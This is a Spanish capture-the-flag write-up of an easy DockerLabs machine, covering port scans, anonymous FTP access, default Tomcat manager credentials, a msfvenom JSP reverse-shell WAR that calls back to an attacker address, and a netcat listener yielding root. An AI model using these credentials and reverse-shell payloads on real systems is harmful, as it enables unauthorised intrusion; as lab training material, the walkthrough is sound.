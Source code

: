 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Hacemos un escaner general:

```zsh
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 17:55 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

y ahora u escaner más profundo en los puertos 21 y 8080

```zsh
❯ sudo nmap -p21,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 17:57 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.88
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds

```

Vemos que en el ftp se permite el anonympous login, pero antes vamos a ver la web.

introduciendo la url: ```http://172.17.0.2:8080/ ``` nos aparece esta web.

![tomactpn.png](assets/tomactpn.png)


vamos a entrar al ftp a ver que encontramos


```zsh
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56530|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
226 Directory send OK.
ftp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||33461|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |**********************************************************************|    74        1.43 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (333.02 KiB/s)
```

obtenemos el archivo tomcat.txt que contiene este mensaje:

```
Hello tomcat, can you configure the tomcat server? I lost the password...
```

Con esto vamos a probar entrar al login del tomcat en la web, vamos a usar el User: tomcat y la contraseña usaremos default contraseñas de tomcat como:

```
- admin:admin
    
- tomcat:tomcat
    
- admin:
    
- admin:s3cr3t
    
- tomcat:s3cr3t
    
- admin:tomcat
```

Estas credenciales por defecto las encontramos en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

por lo que en la web nos vamos a Manager App y en el login las probamos:

![tomcatlogin.png](assets/tomcatlogin.png)

y con las credenciales de **tomcat:s3cr3t** obtenemos acceso:

![tomcatuipn.png](assets/tomcatuipn.png)

En tomcat podemos subir archivos .war, para esta maquina me he guiado con la pagina de [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat) así que haremos una reverse shell con msfvenom:

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.217 LPORT=1234 -f war -o revshell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
Saved as: revshell.war

```

y en tomcat lo subimos en el apartado de Archivo war a desplegar, en mi caso puse la url revshell:

![revShellomcat.png](assets/revShellomcat.png)

Desplegamos y nos aparece un nuevo directorio:

![newdortomcat.png](assets/newdortomcat.png)

ponemos net cat a la escucha:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...

```

accedemos en mi caso al directorio /revshell y parece que obtenemos una consola con root:

![rootPn.png](assets/rootPn.png)

 así que con esto ya tendríamos toda la maquina vulnerada.
 